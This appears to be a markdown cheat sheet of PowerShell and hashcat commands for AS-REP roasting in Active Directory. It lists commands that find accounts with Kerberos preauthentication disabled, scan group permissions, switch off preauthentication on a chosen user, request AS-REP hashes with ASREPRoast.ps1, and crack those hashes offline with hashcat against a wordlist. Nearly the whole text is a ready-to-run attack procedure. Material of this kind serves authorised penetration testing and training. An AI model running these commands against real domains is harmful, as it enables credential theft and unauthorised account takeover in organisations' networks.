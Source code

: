 # AS-REPS Roasting

**Enumerating accounts with kerberos preauth disabled**

```
. .\Powerview_dev.ps1
Get-DomainUser -PreauthNotRequired -Verbose
```

```
Get-DomainUser -PreauthNotRequired -verbose | select samaccountname
```

**Enumerate permissions for group**

```
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”}
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”} | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl
```

**Set preauth not required**

```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

**Request encrypted AS-REP**

```
. ./ASREPRoast.ps1
Get-ASREPHash -Username <username> -Verbose
```

**Enumerate all users with kerberos preauth disabled and request a hash**

```
Invoke-ASREPRoast -Verbose
Invoke-ASREPRoast -Verbose | fl
```

**Crack the hash with hashcat**

Edit the hash by inserting '23' after the krb5asrep, so krb5asrep.......

```
Hashcat -a 0 -m 18200 hash.txt rockyou.txt
```
